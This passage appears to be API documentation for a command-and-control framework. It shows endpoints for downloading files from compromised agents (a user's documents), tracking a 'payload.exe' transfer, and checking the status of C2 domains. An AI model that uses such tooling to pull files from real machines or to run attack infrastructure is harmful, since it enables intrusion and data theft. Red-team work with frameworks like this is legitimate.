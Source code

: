#### Download File from Agent

```http
POST /api/agents/{agent_id}/files/download
```

**Request Body:**
```json
{
    "file_path": "C:\\Users\\alice\\Documents\\important.docx"
}
```

**Response:**
```json
{
    "transfer_id": "transfer-789",
    "filename": "important.docx",
    "file_size": 2621440,
    "source_path": "C:\\Users\\alice\\Documents\\important.docx",
    "status": "started"
}
```

#### Get File Transfer Status

```http
GET /api/transfers/{transfer_id}
```

**Response:**
```json
{
    "transfer_id": "transfer-456",
    "agent_id": "a1b2c3d4-5678-9012-3456-789012345678",
    "filename": "payload.exe",
    "file_size": 2097152,
    "bytes_transferred": 1677721,
    "progress": 80,
    "transfer_rate": 245760,
    "eta_seconds": 2,
    "status": "transferring",
    "started_at": "2024-01-15T11:46:30Z"
}
```

### Infrastructure Management

#### Get Domain Status

```http
GET /api/domains
```

**Response:**
```json
{
    "domains": [
        {
            "domain": "c2.example.com",
            "status": "active",
            "type": "primary",
            "ip_address": "203.0.113.10",
            "health_score": 98.5,
            "last_check": "2024-01-15T11:45:00Z",
            "ssl_valid": true,
            "ssl_expires": "2024-03-15T00:00:00Z"
        }
    ],
```